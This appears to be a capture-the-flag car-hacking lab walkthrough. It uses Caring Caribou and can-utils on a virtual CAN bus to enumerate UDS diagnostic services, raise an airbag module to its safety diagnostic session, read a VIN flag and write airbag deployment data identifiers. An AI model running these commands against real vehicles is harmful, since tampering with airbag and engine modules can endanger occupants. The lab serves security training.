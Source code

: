 Perform an initial discovery with caring caribou $python3 cc.py uds discovery

Discovery give us the following identified diagnostics:

+------------+------------+<br>
| CLIENT ID | SERVER ID |<br>
+------------+------------+<br>
| 0x00000620 | 0x00000520 |<br>
| 0x00000622 | 0x00000522 |<br>
| 0x0000062c | 0x0000052c |<br>
| 0x000007e0 | 0x000007e8 |<br>
| 0x000007e2 | 0x000007ea |<br>
| 0x000007f1 | 0x000007f9 |<br>
+------------+------------+<br><br>

Next we can look up available services for each of the available modules shown in the list above
<br>
As an example for this recon walkthrough we will follow up only on the last module from the list 0x7f1 and we perform a discovery of services
<br>
$python3 cc.py uds services 0x7f1 0x7f9
<br>
Supported service 0x10: DIAGNOSTIC_SESSION_CONTROL<br>
Supported service 0x11: ECU_RESET<br>
Supported service 0x22: READ_DATA_BY_IDENTIFIER<br>
Supported service 0x27: SECURITY_ACCESS<br>
Supported service 0x2e: WRITE_DATA_BY_IDENTIFIER<br>
Supported service 0x3e: TESTER_PRESENT
<br><br>
Next we can perform a discovery of subfunctions on 0x22 READ_DATA and also on 0x2e WRITE_DATA, the rest of the services are standard and respond as defined for UDS
<br>
$python3 cc.py dcm subfunc 0x7f1 0x7f9 0x22 2 3
<br>
Sub-function 11 11<br>
Sub-function f1 90<br>
Sub-function fa 00<br>
Sub-function fa 01<br>
Sub-function fa 02<br>
Sub-function fa 06<br>
<br>
From the list above we can see the subfunctions FA 00 to FA 06 which are subfunctions reserved for Airbag Deployment Data (see reference below)<br>https://piembsystech.com/data-identifiers-did-of-uds-protocol-iso-14229/
<br><br>
Once we have a list of subfunctions we could read the data out and also we could write data in
<br>
Keeping in mind that this is an airbag module before reading or writing is permitted the diagnostic session should be raise from default session 0x01 to Safety system Diagnostic system session 0x04
<br>$cansend vcan0 7f1#021004 50 04 00 FF 00 FF
<br><br>
We get a positive response of the session changed and we can now execute a subfunction discovery on 0x2e WRITE_DATA service<br>
$python3 cc.py dcm subfunc 0x7f1 0x7f9 0x2e 2 3<br>
Sub-function 11 11<br>
Sub-function f1 90<br>
Sub-function fa 00<br>
Sub-function fa 01<br>
Sub-function fa 02<br>
Sub-function fa 06<br>
<br>
now let's read the VIN number as we already know the subfunction F1 90 has been identified as available as part of 0x22 service in a seperate terminal run the isotprecv command $isotprecv vcan0 -s 7f1 -d 7f9
<br>
$cansend vcan0 7f1#0322f190 response: 62 F1 90 01 31 46 4C 41 47 56 49 4E 53 52 53 34 32 30 36 39 30
<br>
we convert the hex to ascii $echo "31464c414756494e535253343230363930" | xxd -r -p 1FLAGVINSRS420690
<br>
we should be able to read and write as well, let's try it with subfunction FA 06 we read it first $cansend vcan0 7f1#0322fa06 62 FA 06 01 01 01
<br>
Let's now try to write data $cansend vcan0 7f1#062efa06000000 6E FA 06
<br>
and read it again to verify $cansend vcan0 7f1#0322fa06 62 FA 06 00 00 00
<br>
Success
<br><br>
This walkthrough only traverses one of the many possible paths to recon from all the different modules and services available, see image below:<br>
![image](https://github.com/IvanGranero/car-hacking/assets/47937620/015899a5-38f1-46a2-bdb7-428555ff6f9f)
<br>
for a complete recon of all remaining modules and services within all modules plus subfunctions the same process should repeat
<br>
Just to give another quick example if we do a service discovery on module 7e0 we get the following:
<br><br>
Supported service 0x01: Unknown service<br>
Supported service 0x04: Unknown service<br>
Supported service 0x09: Unknown service<br>
Supported service 0x10: DIAGNOSTIC_SESSION_CONTROL<br>
Supported service 0x11: ECU_RESET<br>
Supported service 0x22: READ_DATA_BY_IDENTIFIER<br>
Supported service 0x23: READ_MEMORY_BY_ADDRESS<br>
Supported service 0x27: SECURITY_ACCESS<br>
Supported service 0x28: COMMUNICATION_CONTROL<br>
Supported service 0x2e: WRITE_DATA_BY_IDENTIFIER<br>
Supported service 0x2f: INPUT_OUTPUT_CONTROL_BY_IDENTIFIER<br>
Supported service 0x3e: TESTER_PRESENT<br>
Supported service 0xba: Unknown service
<br><br>
with the above information we can either do a dump_dids o subfunction search as we did before, the 0x2f would be a very interesting service to play with. as a hint this module also contains a flag by reading the VIN. Have fun!
